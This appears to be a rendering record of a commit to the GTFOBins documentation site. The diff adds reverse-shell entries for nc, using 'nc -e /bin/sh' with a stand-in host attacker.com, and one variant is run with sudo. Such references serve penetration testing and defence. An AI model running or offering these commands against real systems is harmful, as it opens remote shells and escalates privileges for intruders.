

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nc.md, in a window 1280 px wide and 900 px high, scrolled down 848 px. Shown: the top 896 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1175 px from its top, so only the background shows below that.

Commit message:
Add suid-limited and sudo-enabled to nc

```diff
--- a/_gtfobins/nc.md
+++ b/_gtfobins/nc.md
@@ -24,4 +24,16 @@ functions:
         LPORT=12345
         LFILE=file_to_save
         nc -l -p $LPORT > "$LFILE"
+  suid-limited:
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        ./nc -e /bin/sh $RHOST $RPORT
+  sudo-enabled:
+    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        sudo nc -e /bin/sh $RHOST $RPORT
 ---
```
